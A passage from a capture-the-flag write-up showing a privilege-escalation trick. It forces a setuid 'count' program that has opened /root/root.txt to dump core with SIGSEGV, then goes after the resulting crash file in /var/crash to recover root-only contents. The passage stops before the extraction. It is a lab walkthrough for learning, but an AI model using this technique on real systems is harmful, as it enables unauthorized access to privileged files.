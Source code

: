 In this case, I'm just going to try to get the flag instead of going for a full root shell.

First, we'll start up the program (still in the `/opt` directory here)
```bash
./count
```

Enter `/root/root.txt` for the "source file/directory name". When it asks if you want to save the results to a file, hit `CTRL`+`Z`. This will force the program to the background.

Now we can run `ps` to find the PID for the `count` file. The results should look something like this
```
    PID TTY          TIME CMD
   1357 pts/0    00:00:00 bash
  30782 pts/0    00:00:00 count
  30784 pts/0    00:00:00 ps
```

Let's run
```bash
kill -SIGSEGV <PID>
```

to kill the process and cause a core dump. We can confirm this worked by running `fg` to bring the `count` program back to the foreground. The output should look something like this
```
./count
Segmentation fault (core dumped)
```

Since this is an Ubuntu server, all of the core dumps are handled by an app called `apport` and all of the core dumps are stored in `/var/crash`.
```bash
cd /var/crash
ls -la
```

Results
```
total 88
drwxrwxrwt  2 root   root    4096 Mar 25 05:18 .
drwxr-xr-x 14 root   root    4096 Aug 13  2021 ..
-rw-r-----  1 root   root   27203 Oct  6 18:01 _opt_count.0.crash
-rw-r-----  1 dasith dasith 28157 Mar 25 05:18 _opt_count.1000.crash
-rw-r-----  1 root   root   24048 Oct  5 14:24 _opt_countzz.0.crash

```

Here we can see there's one `.crash` file that's owned by our user, `dasith`. That's the one we just created.


These crash files can be unpacked into multiple files, so let's create a new directory to put all of the extracted files into

```bash
mkdir ~/.temp_dir
```
